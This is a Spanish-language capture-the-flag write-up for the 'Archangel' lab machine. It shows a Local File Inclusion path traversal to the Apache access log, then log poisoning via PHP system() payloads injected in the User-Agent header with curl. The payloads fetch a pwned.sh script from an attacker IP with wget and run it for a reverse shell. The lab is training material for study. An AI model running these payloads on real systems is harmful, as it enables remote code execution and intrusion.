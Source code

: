 La máquina [[MAQUINA ARCHANGEL (Fuzzing, Local File Inclusion con wrappers, log poissoning y manipulación del PATH)]] tiene esta vulnerabilidad en esta ruta:
```python
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././../././var/log/apache2/access.log
```
![[Pasted image 20230625161757.png]]
Por tanto, una vez visto esto, podemos intentar hacer un log poisoning, de tal forma que si probamos en ejecutar una petición con curl podemos inyectar texto dentro del apartado del user agent:
```bash
curl -s -X GET 'http://mafialive.thm' -H 'User-Agent:Pruebas'
```
![[Pasted image 20230706193634.png]]
Pero ahora si dentro del user-agent inyectamos un código php malicioso para ejecutar comandos, veremos que funciona:
```bash
curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('whoami'); ?>"
```
![[Pasted image 20230706193823.png]]
Una vez hecho esto, montamos un servidor http con python y nos compartimos un fichero para enviarnos una reverse shell:
![[Pasted image 20230706195814.png]]
![[Pasted image 20230706195824.png]]
Y entonces ahora ejecutamos el comando wget para obtener este archivo y después bash pwned.sh para ejecutarlo y recibir la reverse shell:
```bash
curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('wget http://10.8.100.91/pwned.sh'); ?>"

curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('chmod 777 pwned.sh'); ?>"

curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('bash pwned.sh'); ?>"
```
Una vez ejecutado lo anterior, refrescamos y habremos recibido la reverse shell:
![[Pasted image 20230706200246.png]]
Y habremos recibido la reverse shell:
![[Pasted image 20230706200000.png]]
